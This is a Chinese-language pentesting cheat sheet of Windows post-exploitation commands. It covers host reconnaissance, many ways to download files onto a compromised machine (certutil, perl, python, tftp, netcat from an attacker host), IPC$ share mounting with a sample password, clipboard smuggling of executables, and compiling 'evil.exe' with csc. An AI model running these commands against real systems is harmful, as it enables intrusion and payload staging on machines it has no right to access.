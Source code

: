js和certutil,bitsadmin,vbs



识别英文操作系统名称及版本   ```systeminfo | findstr /B /C:"OS Name" /C:"OS Version"```

别中文操作系统名称及版本     ```systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"``` 

                            ```
                            OS 名称:          Microsoft Windows 10 旗舰版
                            OS 版本:          10.0.14393 N/A Build 14393
                            ```

识别系统体系结构            ```echo %PROCESSOR_ARCHITECTURE% ```

                           ```AMD64```
                           
查看某特定用户信息          ```net user XXX```

查看路由表信息route print

查看ARP缓存信息 arp -A 

查看防火墙规则：

``` netstat -ano ```
``` netsh firewall show config ```
```netsh firewall show state ```

具体参考[Windows内网渗透提权的几个实用命令](https://www.freebuf.com/articles/system/114731.html)

https://www.jianshu.com/p/502441bcebe0   15种下载

win7测试下载https会报错，提醒我丢失libeay_32.dll，libeay32.dll是OpenSSL所用动态链接库

```perl -MLWP::Simple -e "getstore ('http://www.163.com/','163.html')"```

测试失败 ```perl -MLWP::Simple -e "getstore ('https://raw.githubusercontent.com/3gstudent/test/master/version.txt','163.txt')"```

```perl -e "print 'Hello World \n'"```   

downloader常用方法如下：

certUtil
powershell
csc
vbs
JScript
hta
bitsadmin
wget
debug
ftp
ftfp


python cmd 下载文件

```python -c "import urllib2;u=urllib2.urlopen('https://raw.githubusercontent.com/3gstudent/test/master/version.txt');localfile=open('a.txt','w');localfile.write(u.read());localfile.close();"```


httpdownload.rb 可用ruby 下载 http链接的文件，https暂不知道下载方法  ```$ruby httpdownload.rb ```


php 下载代码有问题
```
<?
$data = @file("http://txt.bookdown.net/home/down/txt/id/625");
$f = fopen("1.txt", "w");
fwrite($f, $data[0]);
fclose($f);
?>
```

windows7 下默认是没有tftp的，可以WIN+R，然后输入appwiz.cpl，点击左侧的打开或关闭windows功能后，选中TFTP客户端即可启用TFTP客户端。

(未测试)

```tftp -i host(本地ip,可以是127.0.0.1) GET 1.py(用于保存在本地的文件名) 远程ip\1.py(远程tftp服务器上的文件)```

wget http://192.168.43.68:8000/1.py  cmd默认未安装


netcat 文件下载(未测试)
攻击者在linux下输入命令

cat file|nc -l 1234
这样把文件file的内容重定向到了攻击者的1234端口，无论谁访问攻击者的ip的这个端口，都能下载到文件了

nc host_ip 1234 > file

建立IPC$连接
IPC$是Windows系统特有的一项管理功能，是微软公司为了方便用户使用计算机而设计的，主要用来远程管理计算机的。
net use \\192.168.1.41\ipc$ 123123 /user:Lee   
通过建立IPC$连接与远程主机实现通信和控制

下面的操作需要管理员权限，只有管理员能够对他们进行远程操作
net use x: \\192.168.1.41\e$
打开“我的电脑”，会发现多出一个x盘，上面写着“C$位于192.168.1.41上”，该磁盘即为目标主机的e盘

net use * /del  断开所有IPC$连接

[IPC连接](https://blog.csdn.net/flyingleo1981/article/details/18763229)

Notepad 文件下载
这个姿势很神奇。
首先打开notepad，就是我们常说的记事本，点击文件-》打开，在文件名称内输入完整的URL，回合，就会发现记事本中的内容就是我们访问的URL的文本内容。

powershell nishang 进行文件下载

这里我们可以用ExeToText脚本，将想要下载的exe文件转换成txt，在用记事本打开，然后复制其中的内容，通过rdp剪贴板复制到目标机器上的txt文本，再通过TextToExe脚本转换为exe就好了。

csc.exe工具
在Windows下，c的编译器默认是在C:\Windows\Microsoft.NET\framework\

version的话，不同位数的机器不一样，看情况而定

进入不同版本version文件夹，

csc.exe /out:c:\users\pino\evil.exe c:\users\pino\evil.c   (未测试)
